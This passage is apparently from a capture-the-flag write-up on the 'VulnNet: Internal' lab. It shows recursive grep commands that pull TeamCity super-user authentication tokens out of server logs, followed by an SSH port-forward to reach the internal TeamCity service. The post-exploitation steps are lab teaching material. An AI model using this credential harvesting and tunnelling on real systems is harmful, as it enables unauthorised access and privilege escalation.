 ```powershell
  8 -rw-r-----  1 root root   6978 Feb  6  2021 teamcity-javaLogging-2021-02-06.log
  4 -rw-r-----  1 root root   3431 Feb  7  2021 teamcity-javaLogging-2021-02-07.log
  4 -rw-r-----  1 root root   3377 Dec 31 10:46 teamcity-javaLogging-2024-12-31.log
  0 -rw-r--r--  1 root root      0 Dec 31 10:38 teamcity.lock
  4 -rw-r-----  1 root root   4007 Dec 31 10:44 teamcity-mavenServer.log
  4 -rw-r-----  1 root root    156 Feb  7  2021 teamcity-nodes.log
  4 -rw-r-----  1 root root   1288 Dec 31 10:44 teamcity-notifications.log
  4 -rw-r--r--  1 root root      4 Dec 31 10:39 teamcity.pid
 20 -rw-r-----  1 root root  19540 Dec 31 10:46 teamcity-rest.log
172 -rw-r-----  1 root root 168439 Dec 31 11:01 teamcity-server.log
  4 -rw-r-----  1 root root    784 Feb  7  2021 teamcity-tfs.log
  4 -rw-r-----  1 root root   2012 Dec 31 10:46 teamcity-vcs.log
  4 -rw-r--r--  1 root root    464 Dec 31 10:38 teamcity-wrapper.log
  4 -rw-r-----  1 root root    568 Dec 31 10:41 teamcity-ws.log
  
sys-internal@vulnnet-internal:~$ grep -iR 'Token' 2>/dev/null
Binary file .cache/mozilla/firefox/jftj8bb8.default/startupCache/scriptCache-child-current.bin matches
Binary file .cache/mozilla/firefox/jftj8bb8.default/startupCache/scriptCache-current.bin matches
.mozilla/firefox/jftj8bb8.default/pkcs11.txt:parameters=configdir='sql:/home/sys-internal/.mozilla/firefox/jftj8bb8.default' certPrefix='' keyPrefix='' secmod='secmod.db' flags=optimizeSpace updatedir='' updateCertPrefix='' updateKeyPrefix='' updateid='' updateTokenDescription=''  manufacturerID='Mozilla.org' libraryDescription='PSM Internal Crypto Services' cryptoTokenDescription='Generic Crypto Services' dbTokenDescription='Software Security Device' cryptoSlotDescription='PSM Internal Cryptographic Services' dbSlotDescription='PSM Private Keys' FIPSSlotDescription='FIPS 140 Cryptographic, Key and Certificate Services' FIPSTokenDescription='Software Security Device (FIPS)' minPS=0
Binary file .mozilla/firefox/jftj8bb8.default/storage/default/https+++linuxize.com/cache/morgue/55/{e69a1002-405a-475c-959f-b08964171f37}.final matches
Binary file .mozilla/firefox/jftj8bb8.default/gmp-gmpopenh264/1.7.1/libgmpopenh264.so matches

sys-internal@vulnnet-internal:~$ grep -iR 'Token' /TeamCity/logs/ 2>/dev/null
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 3782562599667957776 (use empty username with the token as the password to access the server)
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 5812627377764625872 (use empty username with the token as the password to access the server)
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 5853539056608230756 (use empty username with the token as the password to access the server)

sys-internal@vulnnet-internal:~$ 

```

> **SSH Port Forwarding Phase**
> 

`sudo ssh sys-internal@10.10.6.118 -i id_rsa -L 8111:127.0.0.1:8111`

```powershell
sys-internal@vulnnet-internal:~$ 
```
